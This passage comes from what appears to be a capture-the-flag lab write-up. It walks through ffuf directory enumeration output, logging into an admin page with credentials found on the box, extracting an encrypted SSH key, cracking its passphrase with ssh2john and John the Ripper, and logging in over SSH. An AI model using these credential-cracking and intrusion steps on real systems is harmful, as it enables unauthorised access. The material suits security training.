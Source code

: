```sh
details.html            [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 61ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 63ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 67ms]
logs                    [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 66ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
:: Progress: [9228/9228] :: Job [1/1] :: 232 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

The second ffuf scan gives us the answer to question 11.

### Admin page

Attempting to access admin.html pops up a basic HTTP login prompt. We have creds from the email.txt file. Using these creds gives us access to admin.html

/manage-users and /site-settings both lead to nothing useful. Accessing /logs shows a list. Viewing the page source reveals that only one user has logs associated with it. Clicking the view details button takes us to /details.html which gives us the answer to question 12 and an encrypted SSH key.

Copying the SSH key into a file called id_rsa and then running ssh2john (the answer to question 12) on it will give us a hash.

```sh
ssh2john id_rsa > ssh_key_hash.hash
```

Then we can run John The Ripper against it.

```sh
john ssh_key_hash.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>         (id_rsa)     
1g 0:00:00:02 DONE (2024-11-10 01:37) 0.4065g/s 13.00p/s 13.00c/s 13.00C/s 123456..butterfly
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                     
```

This gives us the answer to question 13.

## Logging into the machine.

Now we have the password to the SSH key we can use it to login to the target.

This can be accomplished by:

```sh
chmod 600 id_rsa # Make the key usable by ssh
ssh boss@10.10.206.209
ssh -i id_rsa boss@10.10.206.209
The authenticity of host '10.10.206.209 (10.10.206.209)' can't be established.
ED25519 key fingerprint is SHA256:cWJdE3KjoXFTvW2hMeuONNa06orlbiDCov5zL5aBgLM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.206.209' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-124-generic x86_64)
```

